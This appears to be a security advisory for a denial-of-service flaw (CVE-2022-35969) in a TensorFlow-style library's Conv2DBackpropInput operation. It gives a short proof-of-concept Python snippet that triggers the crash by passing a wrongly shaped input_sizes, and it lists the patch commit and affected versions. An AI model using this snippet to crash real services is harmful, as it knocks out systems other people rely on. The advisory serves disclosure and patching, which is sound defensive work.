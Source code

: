 ## TFSA-2022-101: `CHECK` fail in `Conv2DBackpropInput`

### CVE Number
CVE-2022-35969

### Impact
The implementation of `Conv2DBackpropInput` requires `input_sizes` to be 4-dimensional. Otherwise, it gives a `CHECK` failure which can be used to trigger a denial of service attack:
```python
import machina as tf

strides = [1, 1, 1, 1]
padding = "SAME"
use_cudnn_on_gpu = True
explicit_paddings = []
data_format = "NHWC"
dilations = [1, 1, 1, 1]
input_sizes = tf.constant([65534,65534], shape=[2], dtype=tf.int32)
filter = tf.constant(0.159749106, shape=[3,3,2,2], dtype=tf.float32)
out_backprop = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.Conv2DBackpropInput(input_sizes=input_sizes, filter=filter, out_backprop=out_backprop, strides=strides, padding=padding, use_cudnn_on_gpu=use_cudnn_on_gpu, explicit_paddings=explicit_paddings, data_format=data_format, dilations=dilations)
```

### Patches
We have patched the issue in GitHub commit [50156d547b9a1da0144d7babe665cf690305b33c](https://github.com/machina/machina/commit/50156d547b9a1da0144d7babe665cf690305b33c).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
